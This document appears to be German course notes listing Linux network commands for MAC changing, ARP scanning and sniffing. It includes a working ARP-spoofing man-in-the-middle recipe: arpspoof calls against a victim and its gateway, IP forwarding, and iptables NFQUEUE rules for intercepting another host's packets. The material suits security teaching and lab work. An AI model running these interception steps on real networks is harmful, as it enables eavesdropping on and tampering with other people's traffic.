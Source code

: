 



# Ändern der MAC Adresse

```bash
# disable interface
$ ifconfig eth0 down
# change mac address
$ ifconfig eth0 hw ether 11:22:33:44:55:66
# enable interface
$ ifconfig eth0 up
```



# ARP Scan

```bash
$ nmap -sn -PR 192.168.178.75/24
# -sn  ... nur PING scan (kein PORT scan)
# -PR  ... ARP Scan
```



# ARP Cache anzeigen

```sh
$ arp -a                    
fritz.box (192.168.178.1) at e0:28:6d:7b:fa:91 [ether] on eth0
# -a BSD style output format
```

Dieses Kommando geht auch unter Windows (Ausgabe sieht anders aus).



# ARP Spoofing

Schickt einen ARP Response an das Opfer (`10.0.2.7`). Ändert die im Opfer abgelegt MAC Adresse des Gateways (`10.0.2.1`) auf die eigenen MAC Adresse:

```sh
$ arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
# arpspoof -i <interface> -t <target-victim-ip> <router-ip>
```

Herausfinden des router (=default gateway):

```sh
$ route -n
```

Schickt einen ARP Response an das Gateway. Ändert die im Gateway abgelegte MAC Adresse des Opfers auf die eigene MAC Adresse:

```sh
$ arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

Nach diesen 2 `arpspoof` Aufrufen sind die ARP Caches vom Opfer und vom Gateway kompromitiert.

Aktivieren von IP forwarding:

```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```



# MAC Adresse herausfinden

Variante 1: anpingen und dann ARP Cache auslesen

```sh
$ ping 192.168.178.75
$ arp -a  
```

Variante 2: nmap

```sh
$ nmap -sn -PR 192.168.178.75
# -sn  ... nur PING scan (kein PORT scan)
# -PR  ... ARP Scan
```



# TCP dump

```sh
$ tcpdump -nA port 80
```



# iptables

Pakete eines **fremden Rechners** abfangen

```sh
$ iptables -I FORWARD -j NFQUEUE --queue-num 0
# -I <chain> ... specify chain to modify
#          FORWARD: received from another host
# -j <target> ... target of the rule
# NFQUEUE Netfilter Queue
# --queue-num <nr> queue number to access the queue
```

Pakete werden nicht mehr automatisch weitergeleitet sondern können in einem Programm verarbeitet werden (MITM).

Rücksetzten der Routing Regeln mit:

```sh
$ iptables --flush
```

Pakete des **lokalen Rechners** abfangen

`OUTPUT` chain: Pakete die vom lokalen Computer **gesendet** werden

`INPUT` chain: Pakete die vom lokalen Computer **empfangen** werden

```sh
$ iptables -I OUTPUT -j NFQUEUE --queue-num 0
$ iptables -I INPUT -j NFQUEUE --queue-num 0
```

